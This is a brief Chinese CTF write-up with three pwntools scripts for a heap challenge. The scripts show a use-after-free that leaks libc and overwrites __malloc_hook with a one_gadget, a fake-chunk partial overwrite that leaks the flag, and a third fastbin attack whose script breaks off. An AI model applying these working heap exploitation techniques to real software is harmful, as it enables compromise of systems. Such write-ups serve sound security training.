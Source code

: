 

有这么几种解法吧，一个是直接uaf写\_\_malloc_hook，onegadget：(不知道为啥是通不了，有时可以)

```python
add(0)
add(1)
edit(0,'a')
# gdb.attach(p)
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))-0x7f1df4510d61+0x7f1df414c000
success('libc_base:'+hex(libc_base))
delete(0)
edit(0,p64(libc_base+libc.sym['__malloc_hook']-0x23))
add(0)
add(1)
edit(1,'a'*0x13+p64(libc_base+0xf1247))
add(0)
p.interactive()
```

还有一种，因为前面已经将flag读进来了，直接泄露：

```python
# alloc
add(0)
add(0)
add(0)
add(0)
add(1)

# prepare for a fake 0x70 chunk
edit(1, flat([0, 0, 0, 0x71]))
dele(1)
dele(0)

# partial overwrite 
edit(0, "\xe0")
add(0)
add(0)

# leak flag
edit(0, "a"*0x50)

p.interactive()
```




```python
add(0)
base_addr = u64(('\x00' + edit(0, "a")[1:]).ljust(8, '\x00')) - 0x7ffff7dd1d00 + 0x7ffff7dd25dd
add(1)
delete(1)	
delete(0)	
add(0)
flag_addr = u64(('\x00' + edit(0, "a")[1:]).ljust(8, '\x00')) + 0x55c0b7554240 - 0x55c0b7554000
# print ">>>>>"+hex(flag_addr)

edit(1, p64(base_addr))
add(0)
add(0)


ru('Input your choice:') 
sd('2'+'\x00\x00\x00')
ru('Input the idx') 
sd(str(0)+'\x00\x00\x00')
ru('Input the Magic') 
```